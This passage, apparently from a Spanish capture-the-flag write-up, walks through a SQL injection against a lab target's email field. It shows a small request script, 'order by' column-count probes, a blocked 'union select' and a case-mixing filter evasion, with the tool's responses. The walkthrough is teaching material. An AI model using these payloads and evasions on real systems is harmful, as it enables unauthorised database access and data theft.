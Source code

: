 ```python
    while True:
        sqli_data = input("Email: ")
        makeRequest(sqli_data)


```

Una vez que tenemos nuestro script, vamos a realizar algunas pruebas.

```bash
❯ python3 sqli_charon.py
Email: test@test.com' order by 100-- -
[*] Error in Database!    
Email: test@test.com' order by 10-- -
[*] Error in Database!    
Email: test@test.com' order by 9-- -
[*] Error in Database!    
Email: test@test.com' order by 7-- -
[*] Error in Database!    
Email: test@test.com' order by 5-- -
[*] Error in Database!    
Email: test@test.com' order by 4-- -
[*] User not found with that email!    
Email:
```

Para el valor 4, vemos que la respuesta cambia de **Error in Database** a **User not found with that email!**; por lo tanto podríamos pensar que la tabla de la base de datos presenta 4 columnas.

```bash
Email: test@test.com' union select 1,2,3,4-- -
[-] Ha ocurrido un error!
Email:
```

Cuando queremos ejecutar la sentencia `union select`, vemos que ocurre un error; por lo tanto vamos a ocupar un tipo de evasión ya que se observa que hay palabras o caracteres que al servidor no le gusta.

```bash
Email: test@test.com' UNion select 1,2,3,4-- -
[*] Incorrect format    
Email:
```

Vemos que al cambiar unas letras a mayúsculas, ya le gusta al servidor; sin embargo, ya no tenemos la respuesta de **User not found with that email!**; por lo que podrían existir caracteres que no le gustan, pero antes de listar con todas las letras del abecedario, vamos a tratar primero los caracteres especiales.

```bash
Email: test@test.com' UNion select 1,2,3,"a"-- -
[*] Error in Database!    
Email: test@test.com' UNion select 1,2,3,"b"-- -
[*] Error in Database!    
Email: test@test.com' UNion select 1,2,3,"c"-- -
[*] Error in Database!    
Email:  
```
